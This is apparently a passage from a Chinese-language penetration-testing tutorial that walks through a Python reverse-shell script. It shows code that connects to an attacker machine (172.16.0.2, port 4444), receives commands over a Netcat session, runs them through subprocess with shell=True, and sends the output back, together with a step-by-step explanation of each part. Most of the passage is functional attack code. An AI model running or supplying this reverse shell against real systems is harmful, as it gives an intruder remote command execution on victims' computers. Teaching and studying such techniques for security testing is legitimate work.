 ```py
            dead=wait(go)
         go.close()
      except socket.error:
         pass
      time.sleep(2)

if __name__ == "__main__":
   sys.exit(main())
```

## 它是如何工作的…

要像往常一样启动脚本，我们需要导入将在整个脚本中使用的模块：

```py
import socket
import subprocess
import sys
import time
```

然后我们需要定义我们的变量：这些值是攻击机器的 IP 和端口，以建立连接：

```py
HOST = '172.16.0.2'    # Your attacking machine to connect back to
PORT = 4444           # The port your attacking machine is listening on
```

然后我们继续定义原始连接；然后我们可以为我们建立的值分配一个值，并在以后引用它来读取输入并发送标准输出。

我们回顾一下之前设置的主机和端口值，并创建连接。我们将已建立的连接赋予`go`的值：

```py
def connect((host, port)):
   go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   go.connect((host, port))
   return go
```

然后，我们可以引入一段代码，用于等待部分。这将通过攻击机的 Netcat 会话等待发送给它的命令。我们确保通过会话发送的数据被导入到 shell 中，并且其标准输出通过已建立的 Netcat 会话返回给我们，从而通过反向连接为我们提供 shell 访问权限。

我们给通过 Netcat 会话传递给受损机器的值命名为数据。脚本中添加了一个值，用于在用户完成操作时退出会话；我们选择了`exit`，这意味着在 Netcat 会话中输入 exit 将终止已建立的连接。然后，我们开始处理数据的细节部分，其中数据被打开（读取）并被导入到 shell 中。完成后，我们确保读取`stdout`值并赋予一个值`stdout`（这可以是任何值），然后通过之前建立的`go`会话将其发送回给我们自己。代码如下：

```py
def wait(go):
   data = go.recv(1024)
   if data == "exit\n":
      go.close()
      sys.exit(0)
   elif len(data)==0:
      return True
   else:
      p = subprocess.Popen(data, shell=True,
         stdout=subprocess.PIPE, stderr=subprocess.PIPE,
         stdin=subprocess.PIPE)
      stdout = p.stdout.read() + p.stderr.read()
      go.send(stdout)
      return False
```
